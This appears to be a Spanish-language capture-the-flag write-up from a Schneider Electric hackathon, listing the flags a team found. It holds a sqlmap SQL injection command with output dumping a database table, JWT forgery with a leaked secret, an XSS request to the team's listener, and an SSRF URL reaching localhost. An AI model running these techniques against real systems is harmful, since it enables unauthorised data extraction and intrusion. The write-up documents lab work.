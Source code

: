 # Hackathon NUWE - Schneider Electric

Nombres: Gabriel Juan, Anthony Michael Alonso, Sergi

Equipo/Mesa: 58

## FLAG{ALWAYS_CHECK_COMMITS}

![imagen del commit donde hemos encontrado el flag](./images/FLAG{ALWAYS_CHECK_COMMITS}_1.jpg?raw=true)

Imagen del commit donde hemos encontrado el flag

## FLAG{Update_Plugins!}

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables

[20:04:16] [INFO] fetching number of tables for database 'flag'
[20:04:16] [INFO] retrieved: 1
[20:04:18] [INFO] retrieved: flag

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

[20:20:00] [INFO] fetching entries for table 'flag' in database 'flag'
[20:20:00] [INFO] fetching number of entries for table 'flag' in database 'flag'
[20:20:00] [INFO] retrieved: 1
[20:20:04] [INFO] retrieved: FLAG{Update_Plugins!}

## API_FLAG{Never_public_your_secret}

![Hacemos el fuzz para encontrar mas endpoints](./images/fuzz_1.jpg?raw=true)

![cambiamos algunas cosas del token(user y le pinemos admin, y ponemos la JWT_SECRET_KEY](./images/token_admin.jpg?raw=true)

Hacemos el fuzz para encontrar mas endpoints y luego cambiamos algunas cosas del token(user y le ponemos admin, y ponemos la JWT_SECRET_KEY con esto si hacemos una peticion POST conseguimos sacar la FLAG

## FLAG{sanitize_input}

![Hacemos cross side scripting para enviar una peticion a nuestro kali](./images/cross_side_scripting_2.jpg?raw=true)

Hacemos cross side scripting para enviar una peticion a nuestro kali

![Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag](./images/FLAG{sanitize_input}.jpg?raw=true)

Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag


## FLAG{SSRF_PARA_TOD@S_XD}

![Cambiamos la url para llegar al sitio concreto cambiando letras y todo ](./images/FLAG{SSRF_PARA_TOD@S_XD}.jpg?raw=true)

Para conseguir la Flag hemos usado el URL: http://192.168.56.101/testsite.php?url=http://locAlhost:1337

